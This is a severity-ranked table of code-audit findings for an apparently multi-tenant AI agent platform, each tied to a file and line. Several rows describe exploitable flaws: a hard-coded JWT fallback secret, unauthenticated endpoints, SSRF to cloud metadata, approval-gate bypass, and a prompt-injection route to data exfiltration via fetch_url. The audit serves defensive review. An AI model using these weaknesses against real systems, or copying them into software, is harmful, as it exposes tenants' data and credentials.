| gap-public-api-contract-and-commercial-controls-5 | high | LLM layer & cost | `src/app/api/spend/route.ts:23` | No plans, entitlements or provider-side limits: the only commercial control is a cap the customer can set or remove |
| gap-public-api-contract-and-commercial-controls-17 | high | Security & tenancy | `src/app/api/v1/agents/[id]/invoke/route.ts:35` | GET /api/v1/agents/{id}/invoke discloses any tenant's agent name and purpose without authentication |
| gap-public-api-contract-and-commercial-controls-3 | high | Security & tenancy | `src/app/api/v1/agents/[id]/invoke/route.ts:158` | Public invoke executes an unpublished draft spec when the agent has never been published |
| gap-public-api-contract-and-commercial-controls-2 | high | Data & persistence | `src/app/api/v1/agents/[id]/invoke/route.ts:222` | No Idempotency-Key handling: a client retry after a timeout starts a second paid run with duplicate side effects |
| gap-public-api-contract-and-commercial-controls-4 | high | Integrations & reliability | `src/app/api/v1/agents/[id]/invoke/route.ts:242` | No async contract: paused or failed runs return HTTP 200 with a fabricated 'processing in background' output, and there is no poll endpoint or callback |
| gap-tenant-lifecycle-offboarding-2 | high | Security & tenancy | `src/app/api/workspace/route.ts:7` | No workspace deletion, suspension or tenant offboarding capability exists |
| integrations-30 | high | Integrations & reliability | `src/components/AppCanvasViewer.tsx:183` | Canvas bridge accepts postMessage from any origin and broadcasts with '*' |
| frontend-5 | high | Frontend | `src/components/AppCanvasViewer.tsx:214` | Canvas bridge fabricates 'completed' results without checking the response |
| frontend-3 | high | Frontend | `src/components/Builder.tsx:213` | 'Schedule publish' is a UI-only no-op that reports success |
| gap-public-api-contract-and-commercial-controls-1 | high | Security & tenancy | `src/components/ExportAgentModal.tsx:124` | No API-key store or lifecycle exists, and every client snippet and exported service tells users to call without a credential |
| quality-2 | high | Engineering practice & operability | `src/lib/agent-exporter.ts:487` | Agent name interpolated unescaped into generated JavaScript/Python source |
| storage-11 | high | Storage & files | `src/lib/agent-exporter.ts:1039` | Exported deploy scripts and IaC default to publicly invokable, unauthenticated endpoints with CORS * |
| auth-11 | high | Security & tenancy | `src/lib/ai.ts:29` | Open self-service registration lets anonymous users burn the operator's fallback ANTHROPIC_API_KEY |
| integrations-4 | high | Integrations & reliability | `src/lib/ai.ts:40` | Anthropic client uses SDK defaults: 10-minute timeout, 2 retries, non-streaming — worst case 30 minutes inside a 300 s request |
| gap-public-api-contract-and-commercial-controls-6 | high | LLM layer & cost | `src/lib/ai.ts:118` | Compile, skill-draft and skill-synthesis model calls are never metered and bypass the spend cap |
| storage-13 | high | Storage & files | `src/lib/apps.ts:93` | apps.ts performs runtime DDL and silently falls back to a per-process in-memory store that is scanned across orgs |
| auth-1 | high | Security & tenancy | `src/lib/auth.ts:7` | Hard-coded fallback JWT signing secret allows forging any user's session |
| auth-8 | high | Security & tenancy | `src/lib/crypto.ts:5` | One AUTH_SECRET is both the JWT HMAC key and the AES-256-GCM key for every tenant's credentials, with no rotation path |
| data-6 | high | Data & persistence | `src/lib/db.ts:5` | Pool has no error handler, TLS, or timeouts; an idle-client error crashes the process |
| runtime-7 | high | Runtime & scalability | `src/lib/db.ts:9` | No per-tenant or global concurrency limit on runs |
| data-11 | high | Data & persistence | `src/lib/evals.ts:150` | DDL executed from request handlers; eval tables absent from schema.sql; in-memory fallback masks DB outages |
| ai-2 | high | LLM layer & cost | `src/lib/evals.ts:381` | Eval harness fabricates every result: no model call, canned deliverables, random token counts, persisted and displayed as genuine safety benchmarks |
| runtime-3 | high | Runtime & scalability | `src/lib/orchestrator.ts:140` | Run executes synchronously inside the HTTP request with no queue, no timeout, and maxDuration is a Vercel-only hint |
| runtime-4 | high | Runtime & scalability | `src/lib/orchestrator.ts:146` | No component ever reclaims an expired lease: a crash or deploy strands runs on 'running' forever |
| storage-5 | high | Storage & files | `src/lib/orchestrator.ts:212` | Import/promote writes an unvalidated spec; orchestrator honours imported `gate: "auto"` on high-risk tools (approval bypass) |
| runtime-11 | high | Runtime & scalability | `src/lib/orchestrator.ts:229` | Spend cap only sees finished runs; concurrent in-flight runs can collectively overshoot it |
| ai-6 | high | LLM layer & cost | `src/lib/orchestrator.ts:272` | stop_reason is never inspected: max_tokens truncation, refusal and pause_turn are all treated as a completed deliverable |
| gap-approval-governance-and-notification-delivery-1 | high | Integrations & reliability | `src/lib/orchestrator.ts:311` | Approval becomes decidable before the run is parked; deciding in that window strands the run in awaiting_approval forever |
| ai-8 | high | LLM layer & cost | `src/lib/orchestrator.ts:356` | Usage before an approval pause is never priced; cache tokens dropped; crash mid-run loses all usage |
| integrations-8 | high | Integrations & reliability | `src/lib/redis-client.ts:74` | Redis tool disables TLS certificate verification |
| data-7 | high | Data & persistence | `src/lib/spend.ts:29` | Spend is derived from mutable run rows: deleting an agent lowers month-to-date spend, and in-flight cost is invisible |
| integrations-6 | high | Integrations & reliability | `src/lib/tools.ts:119` | web_search bypasses the SDK, has no timeout, and its token usage and per-search fees are never counted toward spend |
| ai-4 | high | LLM layer & cost | `src/lib/tools.ts:159` | Prompt-injection defence is one sentence; auto tools include arbitrary-URL fetch_url alongside data tools, giving an injected page a data-exfiltration channel |
| surface-4 | high | Security & tenancy | `src/lib/tools.ts:166` | fetch_url lets the model request any host, including cloud metadata and internal services, and follows redirects |
| integrations-9 | high | Integrations & reliability | `src/lib/tools.ts:172` | Unbounded response bodies buffered in memory (fetch_url, http_request, GitHub, proxies) — truncation happens only after full download |
| surface-11 | high | Security & tenancy | `src/lib/tools.ts:218` | Customer-database tool has no statement timeout, unbounded fetch, weak read-only regex, and no role separation |
| gap-agentspec-schema-evolution-8 | high | Security & tenancy | `src/lib/tools.ts:860` | Retire is not enforced on delegation or paused runs; invoke_agent runs a retired agent's draft |
| runtime-9 | high | Runtime & scalability | `src/lib/tools.ts:872` | invoke_agent delegation has unbounded fan-out and cost, allows cycles, runs children synchronously inside the parent's request |
| runtime-10 | high | Runtime & scalability | `src/lib/tools.ts:893` | A delegated child paused at an approval gate never delivers its result to the parent |
| gap-tenant-lifecycle-offboarding-1 | medium | Data & persistence | `db/schema.sql:13` | users.org_id ON DELETE CASCADE: deleting any org deletes user accounts that belong to other tenants, or fails on cross-tenant FKs |
| data-10 | medium | Data & persistence | `db/schema.sql:91` | No migration system: one mutable idempotent file with backfills and destructive drops, applied by hand |
| data-21 | medium | Data & persistence | `db/schema.sql:118` | Every FK to users lacks ON DELETE, making user erasure (GDPR/CCPA) impossible without manual cleanup |
| data-13 | medium | Data & persistence | `db/schema.sql:196` | Append-only tables grow without bound: no retention, partitioning, archival, or size caps |
| data-15 | medium | Data & persistence | `db/schema.sql:307` | Missing indexes for actual query patterns (approvals.run_id, connections.org_id, documents.org_id, users.org_id, lower(email), runs status/lease) |
| ops-16 | medium | Engineering practice & operability | `Dockerfile:10` | Runtime image ships devDependencies, omits public/ and src/, and cannot run the scripts the README says it can |
| auth-15 | medium | Security & tenancy | `next.config.mjs:2` | No security headers or middleware: missing CSP, HSTS, X-Frame-Options, X-Content-Type-Options, Referrer-Policy |
| ops-12 | medium | Engineering practice & operability | `package.json:16` | No metrics, tracing or error tracking anywhere in the codebase |
| storage-16 | medium | Storage & files | `package.json:31` | `xlsx` is a dead dependency with unfixed high-severity advisories while README/TDD claim XLSX support; .xlsx files are read as UTF-8 text |
| data-25 | medium | Data & persistence | `README.md:122` | No backup, PITR, restore-test or disaster-recovery story; document rows reference host-local absolute paths |
| runtime-26 | medium | Runtime & scalability | `README.md:188` | Concurrency invariants (lease, exactly-once cron, double-approval) have no automated tests despite README claims |
| gap-agentspec-schema-evolution-6 | medium | Data & persistence | `scripts/seed-skills.mjs:131` | Published versions are mutable in practice: a seed script rewrites agent_versions.spec in place, and no constraint prevents it |
| quality-8 | medium | Engineering practice & operability | `scripts/test-export-import-promote.mjs:13` | The single test is a live end-to-end script with a hardcoded user id, no assertions of substance and no cleanup |
| frontend-11 | medium | Frontend | `src/app/(app)/agents/[id]/page.tsx:13` | No error.tsx / not-found.tsx / loading.tsx; server pages block and crash unstyled |
| frontend-23 | medium | Frontend | `src/app/(app)/agents/page.tsx:14` | Client-side pagination over an unbounded, over-fetched agents payload |
| gap-tenant-lifecycle-offboarding-4 | medium | Security & tenancy | `src/app/(app)/audit/page.tsx:9` | No tenant or user data export (DSAR access/portability); the only export is a single agent's spec |
| frontend-13 | medium | Frontend | `src/app/(app)/connections/page.tsx:339` | Hand-rolled fetch-in-useEffect data layer with no cache, dedupe, retry, cancellation or types |
| frontend-21 | medium | Frontend | `src/app/(app)/connections/page.tsx:367` | Connections keyed by kind hide duplicates; failed disconnect reported as success |
| frontend-16 | medium | Frontend | `src/app/(app)/connections/page.tsx:826` | Clickable divs/spans and icon buttons are not keyboard operable or labelled |
| frontend-17 | medium | Frontend | `src/app/(app)/connections/page.tsx:1167` | Form inputs without programmatic labels |
| quality-10 | medium | Engineering practice & operability | `src/app/(app)/sandbox/google-adk/page.tsx:1` | Sandbox pages are four near-identical 900–1,170-line client components |
| storage-22 | medium | Storage & files | `src/app/(app)/sandbox/page.tsx:191` | Import path: unbounded zip/text handling and heuristic 'forgiving' JSON parsing with no schema validation |
| storage-20 | medium | Storage & files | `src/app/api/agents/[id]/export/route.ts:16` | Export has no role check and no audit event; any member can exfiltrate full spec, system prompt and all skill instructions |
| data-8 | medium | Data & persistence | `src/app/api/agents/[id]/publish/route.ts:47` | Publish is two autocommit statements; a partial failure leaves the agent permanently unpublishable |
| gap-agentspec-schema-evolution-11 | medium | Security & tenancy | `src/app/api/agents/[id]/publish/route.ts:57` | Publish stores no diff, content hash or review evidence; the 'reviewer approving a specific change' is not enforced server-side |
| gap-approval-governance-and-notification-delivery-15 | medium | Security & tenancy | `src/app/api/agents/[id]/retire/route.ts:35` | Retiring an agent (the documented kill switch) does not cancel its pending approvals; approving later still executes the action and continues the run |
| gap-agentspec-schema-evolution-7 | medium | Engineering practice & operability | `src/app/api/agents/[id]/retire/route.ts:64` | No rollback to an earlier published version; restore only re-arms the latest version |
| quality-13 | medium | Engineering practice & operability | `src/app/api/agents/[id]/route.ts:31` | Malformed JSON bodies crash routes with 500 instead of 400; body parsing is inconsistent |
| gap-agentspec-schema-evolution-17 | medium | Engineering practice & operability | `src/app/api/agents/[id]/schedule/route.ts:92` | Seven independent writers of agents.draft_spec with no shared repository, validator or version stamp |
| runtime-20 | medium | Runtime & scalability | `src/app/api/agents/[id]/swarm/route.ts:64` | Swarm configuration is never read by the runtime |
| data-16 | medium | Data & persistence | `src/app/api/agents/route.ts:11` | List endpoints are either unbounded or hard-capped with no cursor; agents list runs a correlated COUNT per row |
| runtime-21 | medium | Runtime & scalability | `src/app/api/approvals/[id]/route.ts:58` | Approval decision endpoint blocks on the entire resumed run |
| gap-approval-governance-and-notification-delivery-6 | medium | Security & tenancy | `src/app/api/approvals/route.ts:20` | Every member, including builders, can read all pending and decided approval payloads unmasked, even for DLP-enabled agents |
| surface-26 | medium | Security & tenancy | `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:231` | Redirect handling in the proxy re-issues cross-origin redirects to the browser with upstream cookies attached |
| auth-27 | medium | Security & tenancy | `src/app/api/auth/route.ts:9` | No input validation at the auth/route boundary: untyped bodies and unvalidated UUID params turn bad input into 500s |
| auth-20 | medium | Security & tenancy | `src/app/api/auth/route.ts:24` | Password policy is length-only; no reset, verification, MFA or SSO exists |
| data-9 | medium | Data & persistence | `src/app/api/auth/route.ts:49` | Registration spans four autocommit statements; a failure mid-way creates a user who can never sign in |
| auth-26 | medium | Security & tenancy | `src/app/api/auth/route.ts:52` | Dual sources of truth for tenancy: legacy users.org_id/users.role still written and used for authorization decisions |
| auth-25 | medium | Security & tenancy | `src/app/api/auth/route.ts:83` | Audit trail misses key authentication events and attributes sign-in to the wrong workspace |
| integrations-15 | medium | Integrations & reliability | `src/app/api/connections/[id]/heartbeat/route.ts:41` | Heartbeat fabricates health for Anthropic/Gemini/other kinds, pings MCP/HTTP endpoints unauthenticated, and races mcp-discover on the config JSON |
| data-24 | medium | Data & persistence | `src/app/api/connections/[id]/heartbeat/route.ts:58` | connections.config is a read-modify-write jsonb dumping ground with lost updates |
| gap-agentspec-schema-evolution-13 | medium | Integrations & reliability | `src/app/api/connections/[id]/route.ts:12` | Deleting a connection silently breaks every published version that references it; the prompt then lists a raw UUID as an approved source |
| auth-17 | medium | Security & tenancy | `src/app/api/connections/oauth/[provider]/route.ts:35` | Simulated OAuth flow fabricates tokens and reports connections as healthy |
| gap-tenant-lifecycle-offboarding-10 | medium | Security & tenancy | `src/app/api/connections/route.ts:13` | Credentials created by a departing member are not surfaced, reassigned or rotated on offboarding |
| gap-tenant-lifecycle-offboarding-5 | medium | Security & tenancy | `src/app/api/cron/route.ts:104` | Scheduled agents owned by a removed member keep firing under that ex-member's identity; agent ownership cannot be reassigned |
| ops-22 | medium | Engineering practice & operability | `src/app/api/cron/route.ts:110` | An audit() failure inside a catch block aborts the cron loop after next_run_at has already been advanced |
| storage-15 | medium | Storage & files | `src/app/api/documents/[id]/route.ts:13` | Document download reads whole file into memory; no streaming, Range, ETag, nosniff or cache headers |
| storage-19 | medium | Storage & files | `src/app/api/documents/route.ts:29` | No delete, retention, or quota for documents/artifacts; orphaned files on partial failure |
| storage-9 | medium | Storage & files | `src/app/api/documents/route.ts:34` | File type is trusted from the client; parsing dispatches on extension; no magic-byte sniffing or malware scanning |
| ops-14 | medium | Engineering practice & operability | `src/app/api/health/route.ts:13` | Health endpoint conflates liveness and readiness and ignores disk, storage and upstream dependencies |
| gap-tenant-lifecycle-offboarding-12 | medium | Engineering practice & operability | `src/app/api/members/[id]/route.ts:38` | Members cannot leave a workspace, and admins can invite but cannot remove, so offboarding depends on one owner |
| gap-tenant-lifecycle-offboarding-6 | medium | Engineering practice & operability | `src/app/api/members/[id]/route.ts:41` | No ownership transfer: the owner cannot hand over, leave or be replaced, and several operations are owner-only |
| gap-approval-governance-and-notification-delivery-4 | medium | Security & tenancy | `src/app/api/members/route.ts:49` | Admins can mint new approver identities through invitations, hollowing out SoD |
| auth-24 | medium | Security & tenancy | `src/app/api/members/route.ts:80` | Invitation tokens stored in plaintext and transported in URL query strings |
| ops-15 | medium | Engineering practice & operability | `src/app/api/members/route.ts:80` | Configuration is read ad hoc in 13 files with silent localhost defaults and no boot-time schema validation |
| gap-approval-governance-and-notification-delivery-16 | medium | Security & tenancy | `src/app/api/notifications/route.ts:13` | No per-user notification preferences, unsubscribe, digest or throttling; delivery log readable by every member |
| quality-16 | medium | Engineering practice & operability | `src/app/api/sandbox/promote/route.ts:31` | Default guardrails/spec literals are re-declared in seven places instead of using emptySpec() |
| quality-14 | medium | Engineering practice & operability | `src/app/api/sandbox/promote/route.ts:78` | Raw exception messages are returned to clients from LLM, DB and import code paths |
| gap-agentspec-schema-evolution-16 | medium | Data & persistence | `src/app/api/shares/[id]/route.ts:44` | Pending shares hold old-shape spec snapshots indefinitely, and accept performs only a top-level merge |
| auth-19 | medium | Security & tenancy | `src/app/api/shares/route.ts:43` | Cross-tenant account enumeration and profile disclosure via share lookup by email |
| gap-tenant-lifecycle-offboarding-11 | medium | Security & tenancy | `src/app/api/shares/route.ts:45` | Shares are addressed and audited using the recipient's signup workspace (users.org_id), which after removal is a former employer |
| gap-approval-governance-and-notification-delivery-11 | medium | Security & tenancy | `src/app/api/shares/route.ts:115` | Any user in any tenant can make another workspace's mail server send attacker-written text (share_received) |
| data-23 | medium | Data & persistence | `src/app/api/skills/route.ts:19` | Skills list runs a jsonb containment scan across every agent and every published version per skill |
| ai-22 | medium | LLM layer & cost | `src/app/api/skills/save-and-attach/route.ts:59` | Skills are a standing-instruction channel with no content validation; synthesized skills can be attached immediately and are told to take precedence |
| gap-public-api-contract-and-commercial-controls-13 | medium | Engineering practice & operability | `src/app/api/v1/agents/[id]/invoke/route.ts:114` | No public API contract: per-agent hand-built OpenAPI that disagrees with the handler, inconsistent error envelopes, and documented v1 endpoints missing |
| runtime-17 | medium | Runtime & scalability | `src/app/api/v1/agents/[id]/invoke/route.ts:155` | Invalid started_by values: cron inserts '' into a uuid column, v1 invoke inserts an org id into a users FK |
| gap-public-api-contract-and-commercial-controls-14 | medium | Integrations & reliability | `src/app/api/v1/agents/[id]/invoke/route.ts:160` | Callers cannot pin an agent version, and the `version: "published"` field the snippets send is ignored |
| gap-agentspec-schema-evolution-15 | medium | Integrations & reliability | `src/app/api/v1/agents/[id]/invoke/route.ts:172` | Defaults for later-added fields differ by spec age and entry point; v1 invoke also counts each call twice against the rate limit |
| gap-public-api-contract-and-commercial-controls-9 | medium | Integrations & reliability | `src/app/api/v1/agents/[id]/invoke/route.ts:174` | Per-agent rate limit is counted twice per invoke, the overflow surfaces as a 500, the TPM limit is never enforced, and the key is the agent rather than the caller |
| gap-public-api-contract-and-commercial-controls-15 | medium | Data & persistence | `src/app/api/v1/agents/[id]/invoke/route.ts:200` | Public request body is loosely parsed: `parameters` never reach the model, required inputs are not enforced, and a malformed body starts a default paid run |
| gap-public-api-contract-and-commercial-controls-8 | medium | LLM layer & cost | `src/app/api/v1/agents/[id]/invoke/route.ts:220` | Public invoke skips budgetCheck: an over-cap call inserts a run row and audit event, then returns 200 instead of 402 |
| ops-11 | medium | Engineering practice & operability | `src/app/api/v1/agents/[id]/invoke/route.ts:276` | Logging is unstructured console output with no request/run correlation, none in the orchestrator, and 36 swallowed errors |
| auth-9 | medium | Security & tenancy | `src/app/api/webhooks/[id]/route.ts:13` | Public webhook receiver has no signature verification, stores all inbound headers, and advertises a hard-coded default secret |
| data-27 | medium | Data & persistence | `src/app/api/webhooks/[id]/route.ts:31` | Public webhook receiver inserts unbounded payloads with no org_id, size cap, or retention |
| gap-public-api-contract-and-commercial-controls-10 | medium | Data & persistence | `src/app/api/webhooks/[id]/route.ts:31` | Webhook receiver has no delivery de-duplication: provider retries create duplicate events |
| gap-public-api-contract-and-commercial-controls-11 | medium | Frontend | `src/app/api/webhooks/[id]/route.ts:35` | Inbound webhooks never trigger anything, although rows are marked 'processed' and the UI and TDD say they trigger agents |
| gap-public-api-contract-and-commercial-controls-12 | medium | Integrations & reliability | `src/app/api/webhooks/[id]/route.ts:38` | Slack Events API URL verification is not implemented, so the setup flow the UI recommends cannot succeed |
| auth-12 | medium | Security & tenancy | `src/app/api/workspace/route.ts:13` | Active workspace is a per-user database column, not a per-session or per-request value, so concurrent tabs write into the wrong tenant |
| surface-24 | medium | Security & tenancy | `src/components/AppCanvasViewer.tsx:120` | Apps can be created with any URL and default to `unrestricted` iframe permissions by any member |
| frontend-28 | medium | Frontend | `src/components/AppCanvasViewer.tsx:405` | window.open without noopener enables tabnabbing and bridge injection |
| frontend-8 | medium | Frontend | `src/components/Builder.tsx:136` | Autosave and explicit saves race with no concurrency control (lost updates) |
| frontend-9 | medium | Frontend | `src/components/Builder.tsx:179` | Save/publish/run handlers have no error handling; publish can ship a stale draft |
| frontend-22 | medium | Frontend | `src/components/Builder.tsx:1272` | Autosave floods audit trail and schedule sync; spec persisted unvalidated |
| frontend-15 | medium | Frontend | `src/components/RunAgentModal.tsx:127` | Modals lack dialog semantics, focus trapping and focus restoration |
| frontend-10 | medium | Frontend | `src/components/RunView.tsx:42` | Fixed 2s polling with no backoff, stops on awaiting_approval, no push channel |
| frontend-6 | medium | Frontend | `src/components/RunView.tsx:50` | Approval decision in RunView ignores HTTP errors |
| frontend-27 | medium | Frontend | `src/components/RunView.tsx:147` | Shared comment state across all pending approvals records the wrong comment |
| frontend-7 | medium | Frontend | `src/components/RunView.tsx:164` | Field validation error blanks the whole run page |
| quality-12 | medium | Engineering practice & operability | `src/lib/adk-sandbox.ts:408` | Sandbox engine silently degrades to fabricated tool results and a simulated run on any API error |
| quality-6 | medium | Engineering practice & operability | `src/lib/agent-exporter.ts:325` | Exported runners fake success for tools they do not implement |
| quality-1 | medium | Engineering practice & operability | `src/lib/agent-exporter.ts:915` | Python export produces syntactically invalid files (stray closing triple-quote) |
| ai-27 | medium | LLM layer & cost | `src/lib/ai.ts:35` | All environment-key tenants share one Anthropic rate limit with no queueing or fairness; clients are cached forever by raw key |
| data-17 | medium | Data & persistence | `src/lib/ai.ts:52` | Audit trail is 'append-only' by convention only and written outside the transaction it describes |
| ai-15 | medium | LLM layer & cost | `src/lib/ai.ts:67` | Compile/draft/synthesize rely on prose-JSON scraping with no schema validation; trigger and inputs from the model pass straight into the spec |
| gap-approval-governance-and-notification-delivery-7 | medium | Security & tenancy | `src/lib/approvals.ts:11` | No approval policy model: no per-agent or per-tool approver routing, no quorum, no risk tiers, and silent self-approval fallback even for high-risk SQL writes |
| gap-approval-governance-and-notification-delivery-3 | medium | Security & tenancy | `src/lib/approvals.ts:44` | Segregation of duties keys only on who clicked Run; spec authors and publishers can approve their own agents' gated actions without a self-approval flag |
| auth-16 | medium | Security & tenancy | `src/lib/auth.ts:49` | Sessions cannot be revoked or rotated: fixed 7-day bearer JWT, logout only clears the cookie, no password change |
| auth-18 | medium | Security & tenancy | `src/lib/auth.ts:53` | CSRF protection relies solely on SameSite=Lax; no Origin/Sec-Fetch-Site check or token on 69 state-changing fetches |
| auth-22 | medium | Security & tenancy | `src/lib/auth.ts:71` | getUser runs two DB queries per call with no request-level memoisation; layout, page and each API call repeat it |
| gap-tenant-lifecycle-offboarding-8 | medium | Frontend | `src/lib/auth.ts:81` | A user whose last membership is removed is permanently locked out: they cannot sign in, accept a new invitation, re-register or delete their account |
| data-12 | medium | Data & persistence | `src/lib/auth.ts:93` | Tenant isolation is 200 hand-written WHERE clauses with no RLS, keyed off a mutable server-side 'active org' |
| quality-4 | medium | Engineering practice & operability | `src/lib/auth.ts:116` | 38 of 51 route handlers have no try/catch; requireUser's 401 surfaces as a 500 and any thrown error leaks as an unstructured Next.js error |
| integrations-18 | medium | Integrations & reliability | `src/lib/aws-s3.ts:99` | SigV4 canonical URI built with encodeURI, producing SignatureDoesNotMatch for keys containing reserved characters |
| runtime-23 | medium | Runtime & scalability | `src/lib/db.ts:12` | Per-process pg Pool of 10 with no pooler; globalThis reuse disabled in production |
| data-26 | medium | Data & persistence | `src/lib/db.ts:15` | Data-access layer has no instrumentation: no query timing, logging, error wrapping or slow-query visibility |
| quality-11 | medium | Engineering practice & operability | `src/lib/db.ts:15` | `any` is pervasive: 105 of 135 files, ~400 occurrences, DB layer untyped by default |
| quality-9 | medium | Engineering practice & operability | `src/lib/foundry-parser.ts:140` | Four framework parsers are copy-paste variants with no shared intermediate representation |
| ai-11 | medium | LLM layer & cost | `src/lib/guardrails.ts:45` | DLP regexes have severe false positives (any 9/10/16-digit number) and no Luhn check, silently corrupting business data |
| ai-12 | medium | LLM layer & cost | `src/lib/guardrails.ts:125` | User-supplied custom DLP regexes are compiled and run on the request thread with no complexity limit (ReDoS) |
| runtime-8 | medium | Runtime & scalability | `src/lib/guardrails.ts:156` | Rate limiter is an in-process Map: per-replica, reset on restart, unbounded growth |
| integrations-13 | medium | Integrations & reliability | `src/lib/mcp-client.ts:177` | MCP 'client' is not MCP: non-standard endpoint, no handshake, and fabricated tool lists on failure; discovered tools are never executable |
| gap-approval-governance-and-notification-delivery-12 | medium | Integrations & reliability | `src/lib/notify.ts:75` | System notifications ride on tenant agent connections: nondeterministic `limit 1` selection, no platform sender, and silent loss when that connection is changed |
| runtime-22 | medium | Runtime & scalability | `src/lib/notify.ts:83` | Notifications (SMTP/Slack) are sent synchronously inside the run loop with a fresh transport per message |
| gap-approval-governance-and-notification-delivery-14 | medium | Security & tenancy | `src/lib/notify.ts:109` | notify() POSTs to whatever URL is stored as the Slack secret, with no host allowlist (server-side request from system events) |
| gap-approval-governance-and-notification-delivery-10 | medium | Security & tenancy | `src/lib/notify.ts:112` | Raw run error text and user-controlled names go unescaped into Slack mrkdwn and email, bypassing DLP |
| gap-approval-governance-and-notification-delivery-9 | medium | Integrations & reliability | `src/lib/notify.ts:127` | Notifications are fire-once and outside any transaction: no outbox, retry, dedupe or idempotency key, so a missed approval notice silently stalls a run |
| gap-tenant-lifecycle-offboarding-13 | medium | Security & tenancy | `src/lib/orchestrator.ts:137` | Every piece of personal and run data sits in the audit trail with no retention class; the 'Started run' event persists the full run input |
| ai-21 | medium | LLM layer & cost | `src/lib/orchestrator.ts:204` | System prompt is not a pure function of the versioned spec: connection names and skill summaries are resolved live, and the rendered prompt is never stored |
| gap-agentspec-schema-evolution-2 | medium | Integrations & reliability | `src/lib/orchestrator.ts:204` | Spec-shape errors are thrown outside advance()'s try block, leaving the run stuck on 'running' with a fresh lease |
| gap-agentspec-schema-evolution-3 | medium | Security & tenancy | `src/lib/orchestrator.ts:211` | Tool risk or implicit changes in code never reach already-published versions; the runtime trusts the gate frozen in the spec |
| ai-24 | medium | LLM layer & cost | `src/lib/orchestrator.ts:222` | No way to cancel a run and no AbortSignal on model or tool calls |
| runtime-15 | medium | Runtime & scalability | `src/lib/orchestrator.ts:224` | Lease heartbeat only once per loop iteration; a single long tool or model call can outlive the 5-minute lease |
| gap-public-api-contract-and-commercial-controls-16 | medium | Runtime & scalability | `src/lib/orchestrator.ts:229` | The spend cap check runs a full month aggregate plus two lookups on every orchestrator iteration of every run |
| ai-16 | medium | LLM layer & cost | `src/lib/orchestrator.ts:234` | Spec is persisted unvalidated, so a missing or non-numeric maxSteps disables the loop bound (NaN comparison) and can strand a run |
| ai-14 | medium | LLM layer & cost | `src/lib/orchestrator.ts:240` | No prompt caching: system prompt and tool schemas are re-billed at full price on every loop iteration |
| ai-10 | medium | LLM layer & cost | `src/lib/orchestrator.ts:264` | DLP masks only the first input and final output; tool results (the real PII source) reach the model unmasked, and the unmasked deliverable is already persisted in run_steps |
| integrations-19 | medium | Integrations & reliability | `src/lib/orchestrator.ts:340` | No error taxonomy: every failure is a string Error, upstream bodies are interpolated verbatim and fed to the model and persisted |
| ai-5 | medium | LLM layer & cost | `src/lib/orchestrator.ts:374` | Conversation context grows without bound across iterations and approval resumes; no token counting, truncation, or compaction |
| runtime-5 | medium | Runtime & scalability | `src/lib/orchestrator.ts:375` | Non-idempotent tool side effects are executed before run state is persisted; any reclaim re-executes them |
| data-14 | medium | Data & persistence | `src/lib/orchestrator.ts:375` | runs.state stores the full model transcript and is rewritten in full on every loop iteration |
| ai-20 | medium | LLM layer & cost | `src/lib/orchestrator.ts:377` | Model errors (429/529/timeouts) fail the run permanently with no resumable checkpoint and no typed error handling |
| runtime-25 | medium | Runtime & scalability | `src/lib/orchestrator.ts:378` | Orchestrator emits no logs, metrics or traces |
| gap-approval-governance-and-notification-delivery-5 | medium | Security & tenancy | `src/lib/orchestrator.ts:407` | Approval does not bind the resolved destination: connection config, base URL, bucket and default repo are read at execution time, possibly days later |
| gap-approval-governance-and-notification-delivery-8 | medium | Integrations & reliability | `src/lib/orchestrator.ts:407` | Resumed runs lose runId/agentId in the tool context: an approved invoke_agent bypasses the depth and self-delegation guards and is unparented |
| gap-agentspec-schema-evolution-5 | medium | Data & persistence | `src/lib/orchestrator.ts:437` | Approvals pending across a deploy execute old payloads against new tool code, or crash when the tool is gone |
| gap-tenant-lifecycle-offboarding-9 | medium | Security & tenancy | `src/lib/orchestrator.ts:491` | Removal leaves the member's in-flight and parked runs running as them, and they keep receiving run-failure emails from the former workspace |
| ai-18 | medium | LLM layer & cost | `src/lib/pricing.ts:35` | Model ids and defaults are scattered and partly retired; per-workspace model override is unvalidated and unknown models are silently mispriced |
| integrations-17 | medium | Integrations & reliability | `src/lib/redis-client.ts:128` | Hand-rolled RESP parser assumes a complete reply in the first TCP chunk and returns truncated bulk strings |
| gap-agentspec-schema-evolution-9 | medium | Security & tenancy | `src/lib/spec-diff.ts:187` | Version diff ignores fields added later (DLP, rate limits, custom DLP patterns, swarm, standing inputs, input type/required, source scope) |
| gap-public-api-contract-and-commercial-controls-7 | medium | Data & persistence | `src/lib/spend.ts:83` | No append-only usage ledger, historical period or usage export: spend cannot serve as billing data |
| storage-10 | medium | Storage & files | `src/lib/tools.ts:80` | Untrusted documents are parsed in-process with unmaintained/unbounded parsers (pdf-parse w/ 2018 pdf.js, mammoth) and no time/memory limits |
| integrations-26 | medium | Integrations & reliability | `src/lib/tools.ts:200` | Postgres customer connections do not enforce TLS; SSL policy is left to whatever the tenant typed in the DSN |
| storage-17 | medium | Storage & files | `src/lib/tools.ts:243` | Document listing and `read_document` are capped at the 100 newest rows with no pagination |
| storage-18 | medium | Storage & files | `src/lib/tools.ts:247` | Documents are org-wide rather than scoped to run/agent/user; name-based lookup is ambiguous |
| integrations-12 | medium | Integrations & reliability | `src/lib/tools.ts:319` | nodemailer transports are created per call with no connection/greeting/socket timeouts and opportunistic TLS |
| surface-25 | medium | Security & tenancy | `src/lib/tools.ts:327` | send_email and Slack/Teams tools accept model-chosen recipients and HTML bodies |
| integrations-11 | medium | Integrations & reliability | `src/lib/tools.ts:348` | Slack post_message and connection test post to Slack with no timeout |
| gap-tenant-lifecycle-offboarding-14 | medium | Data & persistence | `src/lib/tools.ts:375` | Files on disk are not tied to the data lifecycle: deleting an agent leaves its generated artifacts, and org or user deletion would orphan STORAGE_DIR |
| integrations-14 | medium | Integrations & reliability | `src/lib/tools.ts:562` | No retry, backoff, jitter, circuit breaker, or Retry-After handling for any third-party call |
| integrations-28 | medium | Integrations & reliability | `src/lib/tools.ts:606` | Third-party API endpoints and rate-limit semantics are hard-coded without version/lifecycle handling |
| data-22 | medium | Data & persistence | `src/lib/tools.ts:818` | No uniqueness on agent names per org; name-based delegation resolves to an arbitrary row |
| surface-23 | medium | Security & tenancy | `src/lib/tools.ts:860` | invoke_agent runs unpublished draft specs and bypasses publish governance |
| ai-9 | medium | LLM layer & cost | `src/lib/tools.ts:872` | Rehearsal (dry_run) is not propagated through invoke_agent: a dry run spawns a child that executes for real |
